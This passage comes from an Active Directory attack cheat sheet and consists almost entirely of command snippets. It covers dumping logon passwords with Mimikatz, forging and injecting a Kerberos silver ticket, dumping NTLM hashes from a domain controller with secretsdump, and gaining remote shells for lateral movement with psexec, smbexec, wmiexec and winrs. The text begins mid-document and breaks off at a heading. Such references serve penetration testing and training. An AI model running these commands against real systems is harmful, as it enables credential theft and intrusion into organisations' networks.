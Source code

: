 ```powershell
sekurlsa::logonpasswords  
```

#### **Extracting Domain SID**

```powershell
whoami /user  
```

#### **Forging a Silver Ticket with Mimikatz**

```powershell
kerberos::golden /sid:<domainSID> /domain:<domain-name> /ptt /target:<targetsystem.domain>
```

* * *

### SecretsDump - Dumping NTLM Hashes

#### **Dumping Hashes from a Domain Controller**

```bash
secretsdump.py <domain>/<user>:<password>@<IP>  
```

* * *

### Lateral Movement in Active Directory

#### **Using PsExec to Gain a Shell**

```bash
psexec.py <domain>/<user>:<password>@<IP>  
```

#### **Using SMBExec**

```bash
smbexec.py <domain>/<user>:<password>@<IP>  
```

#### **Using WMIExec**

```bash
wmiexec.py <domain>/<user>:<password>@<IP>  
```

#### **Using WinRS (Windows Remote Shell)**

```bash
winrs -r:<computername> -u:<user> -p:<password> "command"  
```

* * *

### Pass-the-Ticket Attack

#### **Extracting Kerberos Tickets with Mimikatz**
